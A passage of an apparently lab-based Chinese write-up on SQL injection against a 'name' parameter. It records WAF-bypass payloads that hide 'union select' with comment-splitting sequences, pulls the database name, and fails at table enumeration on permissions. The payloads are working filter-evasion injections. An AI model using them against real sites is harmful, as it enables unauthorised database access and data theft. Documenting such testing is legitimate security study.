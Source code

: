 因此这里只有两个字段

```sql
?name=vince'union+select+1,2--+	# 被拦截
?name=vince'union/*//*/select+1,2--+	# 被拦截
?name=vince'union/*////*/select+1,2--+	# 被拦截
?name=vince'union/*//--+//*/select+1,2--+	# 成功绕过
```

查数据库名

```sql
?name=vince'union/*//--+//*/select+1,(select+concat(schema_name)+from+information_schema.schemata)--+	# 被拦截
?name=vince'union/*//--+//*/select+1,(database/*//--+//*/())--+	# 成功绕过
# myp1
```

查表名

```sql
?name=vince'union/*//--+//*/select+1,(select+concat(table_name)+from+information_schema.tables+where+table_schema=`myp1`)--+	# 被拦截
```

经过测试过滤了`information_schema`，尝试使用`sys.schema_auto_increment_columns`、`mysql.innodb_table_stats`和`mysql.innodb_table_index`都绕过无果。（其实绕过了，但是查询权限不足`﻿SELECT command denied to user 'myp1'@'localhost' for table 'x$schema_table_statistics_with_buffer'`）

尝试双写和编码都绕过了，也没权限，应该确实没办法了
